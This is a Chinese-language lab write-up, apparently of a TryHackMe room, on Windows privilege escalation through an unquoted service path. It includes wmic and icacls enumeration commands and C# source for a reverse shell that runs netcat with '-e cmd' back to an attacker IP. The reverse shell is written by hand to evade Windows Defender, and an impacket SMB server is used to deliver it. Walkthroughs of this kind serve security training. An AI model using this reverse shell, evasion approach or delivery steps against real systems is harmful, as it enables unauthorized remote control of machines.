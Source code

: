 查找非系统服务：

	wmic service get name,displayname,pathname,startmode | findstr /v /i "c:\windows"

会发现一个缺少引号的binpath

![在这里插入图片描述](https://img-blog.csdnimg.cn/737cc620d5664461a0700d7b374981cc.png)

使用icacls，发现有个目录我们所有权：

	icacls C:\Program Files (x86)\System Explorer

### 权限提升

我们有一个特权，我们几乎可以肯定使用它来升级到系统权限。缺点是我们需要混淆漏洞，以便让它们通过 Defender。

由于win Defender的存在，所以我们无法借助msf生成payload

tryhackme这里教导使用C#自己编写

	apt install mono-devel

```csharp
using System;
using System.Diagnostics;

namespace RShell
{
    class Program
    {
        static void Main()
        {
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-hackerM.exe", "10.50.91.179 54321 -e cmd");
            procInfo.CreateNoWindow = true;

            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

编译

	mcs ./RShell.cs

开启smbserver:

	python3 /usr/share/doc/python3-impacket/examples/smbserver.py hack . -smb2support -username hacker -password 1q2w3e4r

目标下载：

	net use \\10.50.91.179\hack /user:hacker 1q2w3e4r
	copy \\10.50.91.179\hack\RShell.exe c:\windows\temp\rs-hackerM.exe
